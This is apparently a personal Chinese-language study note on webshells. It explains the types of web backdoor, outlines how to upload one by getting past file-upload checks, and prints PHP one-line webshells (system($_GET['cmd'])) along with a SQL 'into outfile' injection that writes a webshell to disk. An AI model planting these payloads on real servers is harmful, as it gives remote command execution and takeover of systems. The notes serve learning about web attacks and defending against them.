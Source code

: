 ## Webshell
一種以網頁形式存在的命令執行環境，也稱作**網頁後門**。  
黑客可以通過瀏覽自己放的後門，得到一個shell以操控伺服器。  
1. 大馬  
程式較龐大，調用system func()，通常會以加密隱藏代碼。
   
2. 小馬  
程式小巧   

3. 一句話木馬  
一段小代碼，可做插入，變化多樣。  

### How works
我們可以通過網站自帶的文件上傳功能將webshell送上去，而文件裡的代碼由server解析進一步執行!  
1. 尋找 上傳點   

2. 繞過上傳限制 進行上傳  
* 直接上傳  
* 繞過client端  
* 繞過server端文件類型限制  
* 繞過mime類型  
* 繞過文件類型檢測  
* 過濾不全   

3. 尋找上傳路徑  

4. webshell 作用   
  
### webshell
```php
<?php system('ls'); ?>
<?php system(ls); ?>
<?php system($_GET['cmd']); ?>
<?php systme($_GET[1]); ?>
```

### SQL inj to webshell
MYSQL:  
```
select into outfile(dumpfile)  // mysql write to document
```  
E.G.  
```  
union select 1,2,"<? system($_GET['fuck']) ?>" into outfile "://path"
```

### Ref  
* [千变万化的WebShell-Seebug](https://paper.seebug.org/36/)
